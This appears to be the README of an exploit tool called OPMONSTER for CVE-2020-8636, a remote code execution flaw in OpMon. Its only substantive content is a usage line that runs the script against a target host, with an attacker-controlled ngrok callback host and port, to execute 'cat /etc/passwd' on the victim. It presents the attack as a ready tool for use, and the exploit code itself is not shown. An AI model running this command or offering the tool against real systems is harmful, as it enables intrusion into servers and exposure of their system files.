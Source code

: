 # CVE-2020-8636 EXPLOIT
### OPMONSTER by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com http://myhost.ngrok.io 1337 "cat /etc/passwd"
 ```

### Remote code execution in Opmon
